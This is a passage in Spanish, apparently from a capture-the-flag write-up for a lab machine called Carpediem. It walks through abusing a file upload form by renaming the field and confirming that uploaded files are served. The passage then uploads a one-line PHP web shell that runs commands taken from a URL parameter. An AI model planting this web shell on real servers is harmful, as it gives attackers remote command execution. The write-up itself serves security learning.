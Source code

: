 Veo que al enviarlo no me da un error, el cual es que no encuentra `file_upload` ya que en el formulario se llama `my_file` 

![File](../assets/images-Carpediem/file.png)

Por lo tanto al editarlo veo que si se sube el archivo, y nos da la ruta de donde se sube 

![File](../assets/images-Carpediem/file2.png)

veo esto en la navegador y efectivamente nuestro archivo si se sube exitosamente

![Navegador](../assets/images-Carpediem/Navegador.png)

Por lo tanto como interpreta PHP, intentare subir un archivo PHP el cual nos permite ejecutar comandos
```php
<?php system($_GET['cmd']); ?>
```

![Rever](../assets/images-Carpediem/rever.png)
